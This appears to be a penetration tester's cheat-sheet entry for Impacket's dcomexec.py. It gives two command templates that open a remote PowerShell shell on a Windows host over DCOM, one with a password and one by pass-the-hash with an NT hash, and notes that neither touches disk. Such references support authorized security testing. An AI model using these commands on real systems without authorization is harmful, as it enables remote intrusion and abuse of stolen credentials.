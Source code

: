 # dcomexec (imp)

% windows, impacket-exec, dcom

## dcomexec
#plateform/linux #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT  
Execute a command shell without touching the disk or running a new service using DCOM

```
dcomexec.py -shell-type powershell '<domain>/<user>:<password>'@<ip>
```

## pth 
#plateform/linux #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT  

Execute a command shell without touching the disk or running a new service using DCOM

```
dcomexec.py -shell-type powershell -hashes <nt_hash> <user>@<ip>
```
